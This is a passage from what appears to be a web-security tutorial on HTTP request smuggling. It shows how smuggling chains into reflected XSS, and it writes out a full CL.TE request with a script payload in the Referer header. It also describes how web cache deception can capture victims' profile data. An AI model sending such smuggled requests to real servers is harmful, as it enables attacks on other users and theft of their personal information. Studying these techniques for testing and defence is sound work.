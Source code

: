 It's also possible, if for some reason the main domain would not be allowed, to change the `Host` header value to local server, like `localhost`, `127.0.0.1`,...


#### Reflected XSS

HRS can also lead to RXSS, which is far better than normal RXSS, because there's no need to click on a link, so no user interaction besides making the next request.

Suppose we have an RXSS in the `Referer` header, where the url is reflected to the website. We could do something like this to make it work :

```HTTP
POST / HTTP/1.1 
Host: freeoscp.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 168
Transfer-Encoding: chunked 


0 


GET / HTTP/1.1 
Host: freeoscp.net
Referer: <script>alert(1337)</script> 
Content-Type: application/x-www-form-urlencoded


x=


```

This is another example of CL.TE vulnerability. Front-end sees the full request, since it uses CL header, whereas backend is confused and sees only the initial request, that ends right after the `0`. 
Now, after smuggling the request, whoever will make the next request, will get spooked by an XSS alert. Again note the `x=`, which is used so it will not be confused with headers by the next request.


#### Web Cache Deception

HRS can even lead to web cache deception. The only drawback of this attack, is that there is no way to know what is victim visiting and thus what URL should we go to to capture the cached request with juicy info.

For the sake of simplicity, let's say the victim only browses to `/acc/profile/my-face.jpg`, because they're narcissist and obsessed with themselves. 

Now, the source code of the `/acc/profile/` contains valuable information, like email, birthday, whatever. If we smuggle a request, which points to `/acc/profile` and the narcissisist user requests `/acc/profile/my-face.jpg`, actually the `/acc/profile` will be cached into my-face.jpg endpoint, so as we know where the user goes, we can happily load the endpoint and enjoy our stolen data. The only downside of this attack in a real scenario is that we don't know where the user makes request, which makes it difficult for us to find out the location where the cached secret info is.

